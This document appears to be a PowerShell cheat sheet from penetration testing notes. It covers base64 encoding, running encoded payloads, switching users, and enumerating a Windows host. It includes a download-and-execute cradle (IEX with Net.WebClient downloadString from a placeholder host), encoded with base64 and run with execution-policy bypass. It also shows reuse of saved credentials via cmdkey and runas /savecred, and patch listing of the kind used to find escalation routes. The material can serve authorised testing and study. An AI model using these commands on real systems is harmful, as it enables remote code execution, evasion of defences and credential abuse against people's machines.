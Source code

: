 **B64 Encode / Decode**

```powershell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("myCommand"))
```
```powershell
[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('JwBtAHkAUwB0AHIAaQBuAGcAJwA='))
```

**Execute B64 Encoded Payload**

```powershell
kali> echo -n "IEX(New-Object Net.WebClient).downloadString('http://<host:port>/<filename>')" | iconv -t > UTF-16LE | base64 -w0

PS> powershell [-nop] -ep bypass -encodedCommand <Base64>
```

**Run PS as Different User** *(No profile)*

```powershell
runas /user:<domain>\<user> /noprofile powershell.exe
```

**Check for Cached Credentials**

```bat
cmdkey /list
```

**Use Saved Credential**

```powershell
C:\Windows\System32\runas.exe /user:<Domain>\<Username> /savecred <executable>
```

**Enum Local Users**

```powershell
Get-LocalUser | ft Name,Enabled,Description,LastLogon
```

**List Users Directory**

```powershell
Get-ChildItem C:\Users -Force | select Name
```

**Enumerate Object ACL**

```powershell
Get-Acl -Path "<File or Directory>" | fl
```
**Current OS Verison**

```powershell
[System.Environment]::OSVersion.Version
```

**List All Patches**

```powershell
Get-WmiObject -query 'select * from win32_quickfixengineering' | foreach {$_.hotfixid}
```

